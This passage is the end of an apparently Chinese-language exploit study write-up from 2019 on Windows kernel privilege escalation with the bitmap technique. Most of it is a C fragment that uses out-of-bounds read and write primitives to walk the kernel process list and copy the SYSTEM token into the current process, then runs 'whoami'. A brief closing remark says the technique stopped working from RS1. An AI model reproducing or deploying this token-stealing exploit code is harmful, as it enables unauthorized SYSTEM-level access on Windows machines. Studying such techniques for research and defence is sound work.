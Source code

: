 ```c
	// 获取当前进程的 _eprocess
	DWORD32 lpNextEPROCESS = 0;
	LPVOID lpCurrentPID = NULL;
	DWORD32 dwCurrentPID;
	LIST_ENTRY lpNextEntryAddreess = { 0 };
	DWORD32 currentProcessID = GetCurrentProcessId();	// 通过PID判断是否获取到当前进程的地址
	readOOB(hManager, hWorker, systemEprocessAddr + 0x0B8, &lpNextEntryAddreess, sizeof(LIST_ENTRY));

	do	// 根据PID是否找到当前进程 
	{
		// 获取下一个进程
		lpNextEPROCESS = (DWORD32)((PUCHAR)lpNextEntryAddreess.Flink - 0x0B8);
		// 获取PID
		readOOB(hManager, hWorker, lpNextEPROCESS + 0x0b4, &lpCurrentPID, sizeof(LPVOID));
		dwCurrentPID = LOWORD(lpCurrentPID);
		readOOB(hManager, hWorker, lpNextEPROCESS + 0x0B8, &lpNextEntryAddreess, sizeof(LIST_ENTRY));
	} while (dwCurrentPID != currentProcessID);
	
	DWORD32 currentTokenAddress = (DWORD32)lpNextEPROCESS + 0x0f8;
	writeOOB(hManager, hWorker, currentTokenAddress, lpSystemToken, sizeof(LPVOID));

	system("whoami\n");
	
}
```

## 0x05 结束语
上文中提到过，bitmap 的这种利用方法从 RS1 开始就失去作用了。然而，失去作用后又产生了 bitmap 的替代方法，接下来打算学习一下这个替代方法的递进过程（RS1 下有新的利用方法，RS2 下又失效了，RS2 下又可以用新的方法 ...）

最近有些比较重要的事情，RS1 的利用可能要过一段时间才进行了，等什么时候更新了就回来把这段话删掉，虽然也没人看 ：)
---

<p align='right'>2019.9.11</p>

















